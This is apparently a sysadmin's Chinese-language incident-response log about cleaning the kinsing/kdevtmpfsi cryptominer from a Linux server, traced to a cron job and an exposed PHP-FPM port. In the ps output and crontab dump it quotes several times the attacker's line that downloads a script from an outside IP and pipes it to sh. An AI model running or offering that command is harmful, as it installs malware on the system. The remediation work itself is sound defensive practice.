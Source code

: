 top 查看 CPU 占用很高的进程，可疑的有 kdevtmpfsi, kinsing，运行用户都是 www-data

        127 root      20   0       0      0      0 R  82.1   0.0 524:23.45 kswapd0
     459817 root      20   0  100376   6864    468 D   7.2   0.7   0:05.14 snapd
     436327 root      20   0  997428  11880      0 S   2.8   1.2   9:01.79 YDService
     446827 www-data  20   0  515548 265088      0 D   1.9  26.4  53:16.30 kdevtmpfsi
     458366 mysql     20   0 1295820 342204      0 S   1.3  34.1   0:12.21 mysqld
     436360 root      20   0  632428   5632   3660 D   0.9   0.6   1:18.45 YDEdr
     189330 root      20   0 1230712   1980      0 S   0.6   0.2   3:55.27 YDLive
     446543 www-data  20   0  718224  12304      0 S   0.6   1.2   0:10.64 kinsing
     459159 www-data  20   0  718224  33376      0 S   0.6   3.3   0:04.09 kinsing

查看可疑进程是否是一个服务，看到是挂在 cron 服务下的

    # systemctl status 446827
    ● cron.service - Regular background program processing daemon
         Loaded: loaded (/lib/systemd/system/cron.service; enabled; vendor preset: enabled)
         Active: active (running) since Sat 2021-03-27 10:34:45 CST; 1 day 22h ago
           Docs: man:cron(8)
       Main PID: 890 (cron)
          Tasks: 21 (limit: 1066)
         Memory: 309.5M
         CGroup: /system.slice/cron.service
                 ├─   890 /usr/sbin/cron -f
                 ├─390410 /usr/local/qcloud/stargate/bin/sgagent -d
                 ├─446543 /tmp/kinsing
                 ├─446827 /tmp/kdevtmpfsi
                 ├─456416 /usr/sbin/CRON -f
                 ├─456417 /bin/sh -c wget -q -O - http://195.3.146.118/unk.sh | sh > /dev/null 2>&1
                 ├─456421 sh
                 └─459159 /tmp/kinsing


查看所有的 www-data 进程

    # ps -ef | grep www-data
    www-data   40957   40944  0 Mar27 ?        00:00:00 php-fpm: pool www
    www-data   40958   40944  0 Mar27 ?        00:00:00 php-fpm: pool www
    www-data   44049   40944  0 Mar27 ?        00:00:00 php-fpm: pool www
    www-data  446543       1  0 07:16 ?        00:00:11 /tmp/kinsing
    www-data  446827       1 54 07:17 ?        00:53:18 /tmp/kdevtmpfsi
    www-data  456417  456416  0 08:14 ?        00:00:00 /bin/sh -c wget -q -O - http://195.3.146.118/unk.sh | sh > /dev/null 2>&1
    www-data  456421  456417  0 08:14 ?        00:00:00 sh
    www-data  459159  456421  0 08:37 ?        00:00:04 /tmp/kinsing
    root      460015  459861  0 08:54 pts/0    00:00:00 grep --color=auto www-data

停止 crontab ，杀掉可疑进程，删除可疑文件

    systemctl stop cron.service
    kill -9 446543 446827 456417 456421 459159
    rm -f /tmp/kinsing /tmp/kdevtmpfsi

启用防火墙，只保留22 80 443，禁用出站 IP 195.3.146.118

    ufw enable
    ufw allow 22
    ufw allow 80
    ufw allow 443
    ufw deny to 195.3.146.118
    ufw status numbered

确认 /etc 目录下没有执行远程脚本的配置

    find  /etc/ -type f | xargs grep curl

开启一个自动杀病毒进程的定时任务

    # vim kill_kdevtmpfsi.sh    

        ps -aux | grep kinsing |grep -v grep|cut -c 9-15 | xargs kill -9 
        ps -aux | grep kdevtmpfsi |grep -v grep|cut -c 9-15 | xargs kill -9 
        rm -f /var/tmp/kinsing
        rm -f /tmp/kdevtmpfsi

    # crontab -l

        * * * * * /home/ubuntu/scripts/kill_kdevtmpfsi.sh
    # systemctl stop cron.service

排查 crontab 确保没有可疑的定时任务, 删掉 www-data的crontab


    # cd /var/spool/cron/
    # ls -l crontabs/
    total 8
    -rw------- 1 root     crontab 358 Mar 29 09:29 root
    -rw------- 1 www-data crontab 248 Mar 29 08:36 www-data
    # cat crontabs/www-data
    * * * * * wget -q -O - http://195.3.146.118/unk.sh | sh > /dev/null 2>&1

排查可疑服务

    systemctl list-units --all --type=service

全局搜索可疑日志

    find / -name "*kdevtmpfsi*"

排查 ssh 和 nginx 日志

    grep Accepted /var/log/auth.log
    more /var/log/nginx/access.log

确认没有可疑的网络连接，发现 php-fpm 监听了9000外网端口，怀疑这就是本次中木马的原因

    netstat -lntupaa


PHP-FPM Fastcgi 未授权访问漏洞（端口9000）
https://blog.csdn.net/u012206617/article/details/109165947

修改配置只监听 localhost:9000

    sudo vi /etc/php/7.4/fpm/pool.d/www.conf
    systemctl restart php7.4-fpm


